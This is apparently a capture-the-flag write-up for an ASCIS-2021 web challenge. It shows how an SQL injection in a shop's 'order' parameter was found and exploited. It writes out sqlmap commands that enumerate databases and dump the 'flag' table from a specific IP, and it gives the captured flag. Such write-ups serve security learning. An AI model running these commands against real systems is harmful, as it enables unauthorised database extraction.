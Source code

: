 # ASCIS-2021 Warm-up - 100pts
* Category: Web 
* Name: Hitech Shop
* Level: None
* Description: None

## Solution
* Overview the challenge provided us a search box i think it `Sql Injection`
![Main function](./challenge.PNG) 
*  I try `double quote` and this is server response 
![Main function](./sqli.PNG)
* Run this command in sqlmap `sqlmap -u http://125.235.240.166:20105/index?order=price --time-sec=200 --user-agent=* --dbs --level 5 `
* I found two databases, but i only attention `vannd` 
![Main function](./sqlmap0.PNG)
* Then i used command `sqlmap -u http://125.235.240.166:20105/index?order=price --tables -D vannd` for scan `vannd` table 
* Finally i found a table contain flag =))))
![Main function](./sqlmap1.PNG)
* Later i scan `flag` table used this command `sqlmap -u http://125.235.240.166:20105/index?order=price --columns -D vannd -T flag --dump`
![Main function](./sqlmap2.PNG)
* FLAG `ASCIS{SQL_1nJecTi0n_Ba5e_0N_OrdeR_bY}`
